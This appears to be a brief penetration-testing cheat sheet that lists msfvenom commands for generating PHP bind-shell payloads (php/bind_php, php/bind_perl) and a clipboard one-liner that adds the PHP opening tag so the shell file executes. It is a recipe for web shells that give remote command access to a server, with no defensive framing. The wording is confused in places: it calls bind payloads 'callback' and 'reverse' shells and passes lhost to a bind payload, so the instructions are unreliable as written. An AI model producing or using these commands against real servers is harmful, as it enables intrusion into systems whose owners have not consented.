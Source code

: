 # PHP

- PHP bind callback shell

`$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

- PHP with perl code bind callback shell

`$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o shell.php`

- After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```